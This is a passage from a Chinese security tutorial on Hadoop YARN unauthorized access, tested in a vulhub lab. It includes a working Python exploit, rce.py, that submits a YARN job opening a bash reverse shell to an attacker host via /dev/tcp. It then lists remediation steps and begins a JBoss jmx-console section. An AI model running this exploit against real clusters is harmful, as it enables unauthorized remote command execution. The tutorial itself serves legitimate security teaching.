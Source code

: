 **漏洞检测**

1. 端口扫描

2. 使用vulhub搭建漏洞演示环境

`cd /vulhub/hadoop/unauthorized-yarn`

`docker-compose up -d`

3、环境启动后，没有配置身份认证，可以未授权访问到Hadoop YARN ResourceManager WebUI页面。

http://192.168.126.130:8088/

[http://192.168.126.130:8088/cluster](http://192.168.126.130:8088/cluster)

![](https://qqq.gtimg.cn/music/photo_new/T053XD00003yMfMf1KyFD3.jpg)

利用该漏洞，可以进一步getshell

![](https://qqq.gtimg.cn/music/photo_new/T053XD00003GyDbw3vDEdH.jpg)脚本源码如下：rce.py

```python
#!/usr/bin/env python
import requests
target = 'http://192.168.126.130:8088/' # 设置目标主机的ip地址
lhost = '192.168.126.128' # 设置你攻击主机的监听ip地址，并且监听端口为9999
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

**![](https://qqq.gtimg.cn/music/photo_new/T053XD000031ATC709TlV4.jpg)**

**漏洞修复**

-   升级Hadoop到x版本以上，并启用Kerberos认证功能，禁止匿名访问;
-   设置“安全组”访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口；
-   如无必要，关闭 Hadoop Web 管理页面；

## 14. JBoss 未授权访问（8080）

**漏洞简介**

漏洞简述JBOSS 企业应用平台EAP是 J2EE 应用的中间件平台。默认情况下访问 http://ip:8080/jmx-console，就可以浏览 Jboss 的部署管理的信息不需要输入用户名和密码可以直接部署上传木马有安全隐患。
